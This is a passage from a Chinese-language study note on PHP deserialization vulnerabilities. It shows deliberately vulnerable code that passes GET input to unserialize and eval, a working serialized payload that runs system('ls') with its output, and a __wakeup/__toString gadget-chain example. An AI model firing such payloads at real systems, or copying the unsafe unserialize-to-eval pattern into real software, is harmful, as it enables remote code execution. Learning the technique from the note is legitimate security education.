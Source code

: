 ```php
        eval($this->test2);    	//使用eval函数执行$this->test2的内容			
    }
}
unserialize($_GET['test']);  //从GET中拿到payload 然后反序列化
```

所以大致的解题思路:
![image-20231028220345842](C:\Users\13461\AppData\Roaming\Typora\typora-user-images\image-20231028220345842.png)

![image-20231028220502682](C:\Users\13461\AppData\Roaming\Typora\typora-user-images\image-20231028220502682.png)

```php
O:5:"index":1:{s:11:"indextest";O:4:"evil":1:{s:5:"test2";s:13:"system('ls');";}}
注意这里的s:11:"indextest"; 是private 所以要加%00 
```

PAYLOAD:

```php
?test=O:5:"index":1:{s:11:"%00index%00test";O:4:"evil":1:{s:5:"test2";s:13:"system(%27ls%27);";}}

1.php
```



**魔术方法触发前提**
魔术方法**所在的类（或对象）被调用**

实例:

```php
//目标 ： echo "tostring is here!!";
class fast {
    public $source;
    public function __wakeup(){	//序列化后调用
        echo "wakeup is here!!";
        echo  $this->source;
    }
}
class sec {
    var $benben;
    public function __tostring(){	//对象被当做字符串输出的时候调用
        echo "tostring is here!!";
    }
}
$b = $_GET['benben'];
unserialize($b);
```

```php
//先简单分析一下代码
要执行的代码 ： echo "tostring is here!!"; 那就要调用 __tostring()函数
__tostring()函数是对象被当做字符串输出的时候调用 所以往上找到 echo  $this->source;
必要条件是__tostring()的触发必须是要调用当前对象才行 所以很容易就想到了把sec实例化给fast 然后让__wakeup()函数调用后， echo sce这个对象 ；
让__tostring()调用  echo "tostring is here!!";
```
